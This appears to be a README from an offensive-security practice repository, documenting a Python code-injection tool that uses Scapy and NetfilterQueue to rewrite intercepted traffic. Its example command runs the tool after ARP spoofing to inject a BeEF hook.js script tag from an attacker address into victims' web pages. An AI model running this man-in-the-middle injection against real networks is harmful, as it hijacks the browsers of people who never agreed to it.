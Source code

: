 # Code injector

## Requirements

* Root access
* Python 3
* Scapy
* NetfilterQueue
* BeEF

## Usage

```shell
usage: code_injector.py [-h] [-d DESTINATION] [-c CODE]

optional arguments:
  -h, --help            show this help message and exit
  -d DESTINATION, --destination DESTINATION
                        Destination (sslstrip, forward, local)
  -c CODE, --code CODE  Code to inject
```

### Example

Using BeEF (start [ARPSpoofer](../arp_spoofer/arp_spoofer.py) first):
```shell
kali:~$ sudo python3 code_injector.py -d forward -c '<script src="http://192.168.122.108:3000/hook.js"></script>'
```

## Troubleshooting

* [BeEF unable to load extensions](https://github.com/tymyrddin/ymrir/wiki/beef.md)
